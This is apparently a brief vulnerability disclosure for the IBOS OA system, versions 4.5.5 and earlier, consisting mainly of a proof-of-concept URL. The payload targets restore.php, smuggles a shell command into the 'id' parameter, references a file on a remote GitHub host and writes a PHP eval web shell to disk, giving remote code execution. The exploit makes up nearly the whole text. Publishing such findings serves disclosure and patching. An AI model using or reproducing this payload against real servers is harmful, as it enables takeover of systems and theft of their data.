 # Affected Version
## Version <= 4.5.5

## poc
Payload:

http://localhost/data/restore.php?op=restore&id=https://raw.githubusercontent.com/zhaoweiho/IBOS-remote-download-getshell/master/poxteam.txt%20?%20%26%20echo%20^%3C?php%20@eval($_GET[%22poxteam%22])?^%20>%20weiho.php

## References

https://skrskr.me/index.php/posts/open-source-version-of-IBOS-oa-system-getshell.html
